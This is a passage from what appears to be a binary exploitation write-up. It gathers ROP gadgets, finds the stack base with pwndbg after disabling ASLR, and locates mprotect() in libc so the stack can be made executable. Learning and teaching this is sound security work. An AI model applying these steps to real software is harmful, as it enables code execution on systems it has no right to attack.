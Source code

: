 ‍

![image](assets/image-20250326114110-cpa5l54.png)

```1
0x000000000002bb39: pop rsi; ret; 

```

‍

![image](assets/image-20250326114210-iiyjgbq.png)

```1
0x000000000010d37d: pop rdx; ret;
```

‍

here we go we have our gadgets ready now:

```1
0x000000000002a205: pop rdi; ret; -- base address of stack
0x000000000002bb39: pop rsi; ret; -- length 
0x000000000010d37d: pop rdx; ret; -- prot value (7)
```

‍

**The next step is to find out the base address of stack and address of mprotect().**

**disable aslr:**

![image](assets/image-20250326114849-cnenvmf.png)

‍

```1
pwndbg>  vmmap
```

‍

![image](assets/image-20250326115006-s09x5my.png)

```1
base address of the stack : 0x7ffffffde000
protection rw-
```

‍

![image](assets/image-20250326115222-kdfq7wn.png)

```1
address of mprotect in libc: 0x7ffff7feaba0
```

‍

